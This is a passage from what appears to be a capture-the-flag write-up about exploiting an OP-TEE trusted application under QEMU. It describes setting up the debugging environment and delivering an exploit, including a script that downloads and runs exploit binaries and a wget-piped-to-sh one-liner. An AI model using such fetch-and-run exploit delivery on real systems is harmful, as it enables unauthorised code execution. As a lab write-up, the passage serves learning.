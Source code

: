 ```bash
  nc -lvp 31337
done
```
The `-gdb tcp::31338` option allows debugging of code running in QEMU by connecting to a gdbserver on port 31338.

### Running
After launching QEMU with the script described above, we need to deliver the client and TA to the filesystem. Since the QEMU launch script in the task is configured with network access to the host, we can use `wget` for this purpose. First, let's start a simple HTTP server on the host:
```bash
python3 -m http.server 8080
```
We'll create the following script to load the client and TA, and then execute the client ([xploit.sh](./solve/xploit.sh)):
```bash
#!/bin/sh

set -e

A=${A:-"10.0.2.2:8080"}

wget -P / http://${A}/xploit/host/xploit
chmod u+x /xploit
wget -P /lib/optee_armtz/ http://${A}/xploit/ta/41414141-4141-4141-4141-414141414141.ta
/xploit
```
Now after launching QEMU, we just need to download the `xploit.sh` script over the network and execute it:
```bash
export A=10.0.2.2:8080; wget -O - http://${A}/xploit.sh | sh
```
The client runs silently (without errors), while in the Secure World logs (`listen.sh` output) we can see:
```
I/TC: SAS Healthcheck: SAS{HEALTHCHECK!!!!!!!!}
...
D/TA:  __GP11_TA_InvokeCommandEntryPoint:110 xploit
```
The first line corresponds to the executed SMC handler call for health check, while the second one shows debug output from within the TA.

### Debugging
Prepare a gdb script to connect to the server, load symbols, and set breakpoints in the kernel locations of interest ([script.gdb](./solve/script.gdb)):
```gdb
target remote :31338
add-symbol-file ./server-user/app/tee.elf
b *syscall_sas+140
b *syscall_sas+212
b *syscall_sas+280
b *sas_do_smc_healthcheck
```
### In memory of the hours we spent
Despite the apparent simplicity of the described environment setup scripts, this part of the task turned out to be the most challenging and gave us an unforgettable experience... But unfortunately, due to the time spent on it, we never managed to submit the flag for this task on time :(
